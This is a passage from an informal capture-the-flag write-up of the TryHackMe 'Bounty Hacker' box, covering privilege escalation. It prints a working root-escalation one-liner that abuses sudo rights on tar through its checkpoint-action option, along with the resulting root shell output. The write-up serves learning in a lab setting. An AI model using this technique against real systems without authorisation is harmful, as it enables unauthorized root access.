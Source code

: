 Uploaded Linpeas and run it. But Linpeas give me no Information about any possibilitys. 

I was searching on the box for some Priv-Escalation things i can use. 

Then i was thinking about the "sudo -l" command. I tried it with the password from the ssh-login. And this password was valid. 

```sh
sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Password is working, and the output shows me, that i can run "tar" as sudo user without password. 

Perfect lets check GTFOBins for Priv-Escalation. 

Found the way: 
```sh
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
/bin/tar: Removing leading `/' from member names
# id
uid=0(root) gid=0(root) groups=0(root)
```

Wohoo, i am root. 
Last step is to cat the root file, this was located in "/root/root.txt" 
```sh
# cat root.txt
THM{8***********r}
```

# Conclusion

This Box was nothing new to me. Only thing with the command "sudo -l" and the password. But thanks it came to my mind that i have a password for the user. Other wise it would be really frustrated. 

